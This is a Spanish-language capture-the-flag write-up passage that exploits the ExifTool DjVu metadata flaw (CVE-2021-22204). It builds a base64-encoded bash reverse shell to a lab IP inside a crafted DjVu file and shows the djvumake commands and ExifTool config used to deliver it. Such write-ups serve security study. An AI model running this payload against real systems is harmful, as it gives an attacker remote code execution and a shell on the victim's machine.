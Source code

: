 Parece que se está usando **`ExifTool`** por detrás. Buscando en Google **`Exiftool vulnerability`** encuentro este enlace: [https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)
donde se explica la vulnerabilidad. Vamos a instalar las herramientas necesarias para explotar el fallo.

## Fase de Explotación

```console
p3ntest1ng:~$ sudo apt install djvulibre-bin
```

Ahora creamos un archivo con el siguiente contenido, lo codificamos en base64 por si acaso:

```console
p3ntest1ng:~$ echo 'bash -i >& /dev/tcp/10.10.15.113/9999 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4xMTMvOTk5OSAwPiYxCg==
p3ntest1ng:~$ vi payload
```

```
(metadata "\c${system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4xMTMvOTk5OSAwPiYxCg== | base64 -d | bash')};")
```

Comprimimos nuestro payload siguiendo las instrucciones del artículo:

```console
p3ntest1ng:~$ bzz payload payload.bzz
```

Creamos el exploit tal y como se indica:

```console
p3ntest1ng:~$ djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
```

Ahora debemos crear un archivo de configuración llamado **`configfile`** con el siguiente contenido:

```console
p3ntest1ng:~$ vi configfile
```

```
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
        # add more user-defined EXIF tags here...
    },
);
1; #end%
```
